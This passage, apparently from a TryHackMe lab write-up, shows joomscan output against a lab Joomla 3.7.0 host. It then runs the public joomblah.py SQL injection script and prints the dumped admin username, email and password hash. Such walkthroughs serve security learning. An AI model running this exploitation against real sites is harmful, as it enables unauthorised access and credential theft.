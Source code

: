 ```bash

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://10.10.176.1/robots.txt 

Interesting path found from robots.txt
http://10.10.176.1/joomla/administrator/
http://10.10.176.1/administrator/
http://10.10.176.1/bin/
http://10.10.176.1/cache/
http://10.10.176.1/cli/
http://10.10.176.1/components/
http://10.10.176.1/includes/
http://10.10.176.1/installation/
http://10.10.176.1/language/
http://10.10.176.1/layouts/
http://10.10.176.1/libraries/
http://10.10.176.1/logs/
http://10.10.176.1/modules/
http://10.10.176.1/plugins/
http://10.10.176.1/tmp/


[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found


Your Report : reports/10.10.176.1/
```

The results of `joomscan` indicate `Joomla` version: 3.7.0, which is [potentially vulnerable to SQL injection](https://www.exploit-db.com/exploits/42033).

# Joomla 3.7.0 SQL Injection

## Exploiting the SQL injection vulnerability

Joomla 3.7.0 has a SQL injection vulnerability, which can be leveraged by [this script](https://github.com/XiphosResearch/exploits/blob/master/Joomblah/joomblah.py) to dump Joomla user credentials.

```bash
$ python2.7 joomblah.py http://10.10.176.1


[-] Fetching CSRF token
 [-] Testing SQLi
('  -  Found table:', 'fb9j5_users')
('  -  Extracting users from', 'fb9j5_users')
(' [$] Found user', ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', ''])
('  -  Extracting sessions from', 'fb9j5_session')
```
